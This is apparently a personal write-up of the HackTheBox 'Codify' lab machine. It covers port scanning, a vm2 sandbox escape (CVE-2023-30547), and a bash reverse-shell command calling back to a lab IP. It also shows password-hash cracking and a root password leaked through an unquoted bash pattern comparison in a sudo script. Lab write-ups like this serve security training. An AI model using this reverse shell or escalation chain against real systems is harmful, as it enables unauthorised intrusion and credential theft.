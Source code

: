 ```yaml
---
title: "Codify - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Codify
![](https://kar0nx.github.io/assets/images/writeup/57b977ea744af01a5454c8643a850e59.png)
## Reconnaissance

IP: 10.10.11.239
## NMAP

```
nmap -T4 -p- -A 10.10.11.239
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 12:21 UTC
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.031s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   30.42 ms 10.10.14.1
2   30.75 ms codify.htb (10.10.11.239)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.48 seconds
```

add to /etc/hosts
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901142135.png)

ffuf found /limitations

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901143106.png)

in /about we see that is running vm2 sandbox for JavaScript JS

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901142619.png)

searching google I found RCE https://nvd.nist.gov/vuln/detail/cve-2023-30547

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901142919.png)

Paste poc code and we escaped sadnbox

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901142904.png)

editing command to bash reverse shell we got it 
```
("bash -c 'bash -i >& /dev/tcp/10.10.14.8/8080 0>&1'")
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901143336.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901144039.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901144057.png)

/opt should be empty but it isn't I found script here:
no access to /var/backups/mysql maybe later

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901144935.png)

in /var/www/contact I found db file contains password hash

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901150027.png)

I was able to crack this password with hashcat 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901150219.png)

joshua spongebob1
and we can connect via ssh as joshua

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901150330.png)

## Privilege Escalation

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901150421.png)

```
mysql -u joshua -pspongebob1 -h 0.0.0.0
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901152147.png)

```
select user,password from user;
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901152127.png)

Can't crack it. Let's review source code again.
Got it 
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901153206.png)

within a Bash `[[ ... ]]` conditional expression, the == operator (and !=) treats the unquoted right-hand operand as a pattern, not a literal string. For example, `[[ $var == "*" ]]`
Now we need to start any snooper (I user PSPY32) in second session (second ssh)
so let's execute 
```
sudo /opt/scripts/mysql-backup.sh
```
and just type `*`

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901153408.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901153835.png)

Great we got password:
root kljh12k3jhaskjh12kjh3

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901154103.png)

And grab root.txt